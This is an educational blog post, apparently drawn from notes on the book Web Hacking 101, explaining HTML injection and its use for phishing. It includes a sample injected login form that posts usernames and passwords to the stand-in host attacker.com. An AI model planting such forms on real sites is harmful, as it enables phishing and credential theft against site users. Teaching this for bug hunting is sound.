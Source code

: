```yaml
---
path: '/post-ten'
date: '2019-02-21'
time: '☕️ 3 min read'
title: 'Vulns #4: HTML Injection'
summary: 'HTML injection is also sometimes referred to as virtual
defacement. This is really an attack made possible by a site allowing a malicious user to
inject HTML into its web page(s) by not handling a user’s input properly.'
---
```


This article was done using my notes from a book titled WEB Hacking 101 written by Peter Yaworksi in 2018.

<sub>Yaworksi P. (2018). Web Hacking 101, How To Make Money Hacking Ethically</sub>

## What are HTML injections ?

As said in the summary, Hypertext Markup Language (HTML) injection is also sometimes referred to as virtual
defacement. This attack made possible by a site allowing an attacker to inject HTML into its web page(s) by not handling a user’s input properly.

In other words, an HTML injection vulnerability is caused by receiving HTML, typically via some form
input, which is then rendered as inputted, on the web page.

Since HTML is the language used to define the structure of a web page, if an attacker can
inject HTML, they can essentially change what a browser renders and a web page looks
like.

Sometimes this could result in completely changing the look of a page or in other
cases, creating HTML forms to trick users in hope they use the form to submit sensitive
information (this is referred to as phishing).

For example, if you could inject HTML, you might be able to add a < form> tag to the page, asking the user to re-enter their username
and password like:

```
<form method='POST' action='http://attacker.com/capture.php' id="login-form">
<input type='text' name='username' value=''>
<input type='password' name='password' value=''>
<input type='submit' value='submit'>
</form>

```

However, when submitting this form, the information is actually sent to http://attacker.com
via an action attribute, which sends the information to an attacker’s web page.

## What to be on the look out for ?

HTML Injection presents a vulnerability for sites and developers because it can be used to
phish users and trick them into submitting sensitive information to, or visiting, malicious
websites.

Hackers should be on the lookout for the opportunity to manipulate URL parameters and have
them rendered on the site but keep in mind, not all sites value and pay for these types
of reports.
